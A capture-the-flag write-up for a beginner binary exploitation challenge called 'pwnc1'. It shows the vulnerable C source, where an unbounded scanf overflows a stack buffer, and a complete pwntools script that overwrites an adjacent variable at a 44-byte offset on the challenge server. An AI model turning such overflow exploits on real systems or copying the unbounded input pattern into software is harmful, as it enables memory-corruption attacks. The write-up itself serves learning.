 ```yaml
---
description: Binary Exploitation
---
```


# pwnc1

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn" %}

{% file src="../../.gitbook/assets/pwn.c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple variable overwrite challenge, source code being given definitely makes this way easier.

```c
void pwnme(){

	int number;
	char name[32];

	number=0;

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home %s\n",name);

	if(number == 8){

		print_flag();

	}

	exit(0);

}
```

Find the offset using gdb until the if statement happens:

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Offset was 44 bytes which allowed me to easily create an overwrite:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42011)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

offset = 44
target_value = 0x8

payload = flat({
    offset: target_value
})

io.clean()
io.sendline(payload)
log.info(io.recvline())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
